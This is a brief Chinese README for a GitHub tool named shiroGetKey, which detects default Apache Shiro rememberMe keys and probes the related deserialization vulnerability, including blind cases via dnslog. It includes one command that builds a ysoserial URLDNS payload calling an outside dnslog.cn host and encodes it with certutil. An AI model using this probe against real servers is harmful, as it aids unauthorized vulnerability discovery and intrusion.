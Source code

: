 # shiroGetKey
检测默认key，探测漏洞

# 用途

1. 利用空SimplePrincipalCollection检测正常回显rememberMe=deleteMe
2. 支持带post数据探测
3. 利用dnslog进行探测特殊情况(反代)无回显漏洞是否存在

# payload生成

dnslog探测用ysoserial生成  
如下：
``` cmd
java -jar ysoserial-master-d367e379d9-1.jar URLDNS http://wxovk8.dnslog.cn >1.txt &certutil -encode 1.txt 2.txt&type 2.txt
```

# 原项目
由于不满足需求，直接魔改
https://github.com/Echox1/ShiroExploit
